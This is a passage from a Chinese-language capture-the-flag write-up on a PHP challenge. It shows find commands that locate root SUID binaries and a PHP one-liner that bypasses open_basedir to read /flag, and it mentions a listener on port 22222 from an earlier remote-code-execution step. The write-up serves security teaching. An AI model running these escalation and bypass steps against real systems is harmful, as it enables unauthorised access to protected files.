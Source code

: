 我们就成功监听到22222端口了

![image-20241108214437435](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082144486.png)

## SUID提权

在RCE了之后我们发现无法直接读取/flag文件，这里还有一个SUID提权的小点：

![image-20241108214530094](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082145137.png)

首先寻找有权限命令的SUID文件：

```python
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

以上任意一条均可

我们可以看到php命令具有权限

![image-20241108214740362](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082147449.png)

但是还是需要绕过一下open_basedir,依次执行

```
php -a
mkdir('123'); chdir('123');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..'); ini_set('open_basedir','/');echo(file_get_contents('/flag'));

```

执行该命令的时候要位于`/var/www/html`目录下执行

就可以获得flag：

![image-20241108214857445](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082148487.png)

参考

https://www.cnblogs.com/yesec/p/15211484.html

https://odiws.github.io/2024/11/07/%E8%93%9D%E5%B8%BD%E6%9D%AF-2021-One-Pointer-PHP/

https://blog.diggid.fun/2021/05/04/%E8%93%9D%E5%B8%BD%E6%9D%AF-2021-One-Pointer-PHP-%E5%A4%8D%E7%8E%B0/#%E5%89%8D%E8%A8%80

https://blog.csdn.net/baidu_39504221/article/details/116720875
